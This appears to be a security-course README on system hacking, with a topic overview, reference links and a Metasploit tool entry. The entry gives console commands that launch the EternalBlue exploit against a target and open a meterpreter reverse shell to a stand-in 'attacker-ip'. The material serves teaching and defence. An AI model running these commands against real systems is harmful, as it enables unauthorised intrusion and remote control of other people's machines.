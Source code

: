 # System Hacking - Topics Overview

## Topic Explanation
System Hacking involves gaining unauthorized access to computer systems by exploiting vulnerabilities in operating systems, applications, and services. This module covers various attack methods including password cracking techniques, privilege escalation, exploitation of services and applications, malicious software deployment, and maintaining persistent access. System hacking encompasses both technical attacks (brute force, hash injection, buffer overflow) and non-technical approaches (social engineering, physical access). The goal is to understand how attackers compromise systems to better defend against such attacks.

## Articles for Further Reference
- [OWASP Top 10 - Authentication and Session Management](https://owasp.org/www-project-top-ten/)
- [NIST Special Publication 800-63B: Authentication and Lifecycle Management](https://pages.nist.gov/800-63-3/sp800-63b.html)
- [Microsoft Security Development Lifecycle](https://www.microsoft.com/en-us/securityengineering/sdl)
- [Buffer Overflow Prevention Techniques](https://en.wikipedia.org/wiki/Buffer_overflow_protection)
- [Privilege Escalation Attack Patterns](https://attack.mitre.org/tactics/TA0004/)

## Reference Links
- [Exploit Database](https://exploit-db.com/)
- [Metasploit Framework](https://www.metasploit.com/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [CVE Details](https://www.cvedetails.com/)
- [Security Focus BugTraq](https://www.securityfocus.com/bid)
- [SecLists - Password Lists](https://github.com/danielmiessler/SecLists)

## Available Tools for the Topic

### Tool Name: Metasploit Framework
**Description:** A comprehensive penetration testing platform that provides exploits, payloads, encoders, and post-exploitation modules for system compromise and privilege escalation.

**Example Usage:**
```bash
# Start Metasploit console
msfconsole

# Search for specific exploits
search ms17-010

# Use an exploit module
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target-ip
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker-ip
exploit
```
